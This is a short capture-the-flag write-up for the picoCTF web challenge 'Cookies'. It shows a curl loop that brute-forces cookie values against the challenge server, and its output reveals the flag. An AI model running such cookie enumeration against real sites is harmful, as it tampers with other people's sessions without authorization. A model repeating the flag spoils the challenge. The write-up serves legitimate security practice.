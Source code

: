 # Cookies

## Descripcion
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

## Solucion

```console
┌──(yareds45㉿yareds45)-[~/develop/web]
└─$ for i in {0..25}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
                          
         
```
